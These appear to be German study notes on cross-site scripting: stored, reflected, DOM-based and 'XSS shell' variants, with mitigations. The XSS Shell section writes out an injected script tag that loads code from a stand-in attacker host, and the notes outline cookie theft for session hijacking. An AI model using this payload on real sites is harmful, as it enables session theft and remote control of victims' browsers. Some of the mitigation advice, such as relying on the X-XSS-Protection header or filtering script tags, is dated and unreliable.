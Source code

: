 # Cross-Site Scripting (XSS)

## Stored XSS
- Angreifer kann auf Website Code platzieren, dass vom Victim bei Besuch ausgeführt wird
- Mit dem JS wird das Victim dazu gebracht, dem Angreifer die Session zu schicken
    - SOP verhindert das Senden per JS aber
    - Es wird aber z.B. ein Bild eingebunden mit dem Cookie im Parameter
    - Das Cookie landet im Access-Log des Angreifers
- Angreifer braucht Session selber (Session-Hijacking)

## Reflected XSS
- Angreifer schickt GET-Request mit JS in Query-Parameter
- Server sendet 404 mit Fehlermeldung, dass es die Seite nicht gibt, und reflektiert das JS zurück
- Wenn diese Anfrage vom Opfer ausgeführt wird, kann so beliebigs JS zur Ausführung gebracht werden

- Moderne Browser merken das JS in der URL und verhindern das Ausführen beim Reply (XSS-Filter)
- Server kann XSS-Filter auch enforcen (bei neuen Browsern) mit Header `X-XSS-Protection`

## DOM-Based XSS
- XSS im lokalen DOM ohne Server-Request
- JS-code wird im Anchor nach dem `#` angehängt, so wird sie nie dem Server übermittelt

## XSS Shell
- Angreifer injected `<script src="attacker-site/script.js"/>` auf Webapp
- Opfer führt Attacker-JS aus und pollt regelmässig den Attacker-Server
- So kann die Shell Befehle schicken, die vom Opfer abgeholt werden


## Mitigation
- HTML-Characters escapen
    - `<` in `&lt;` usw. umwandeln
    - In Praxis schwierig, das nicht gültige Zeichen wie `'` escaped werden
        - Keine HTML-Entities im Backend abspeichern!
    - Besser: Script-Tags serverseitig bereits beim Input rausfiltern
- NoScript o.ä. im Browser
- `X-XSS-Protection: 1; mode=block` HTTP-Header, zwingt den Browser zur "XSS-Protection"
- Cookies mit "HTTP-Only" zur Session Hijacking Mitigation
- Filter in WAF
- [Content Security Policy](8_CSP.md), damit nicht ein fremdes Script mit `<script src="..." />` eingefügt werden kann
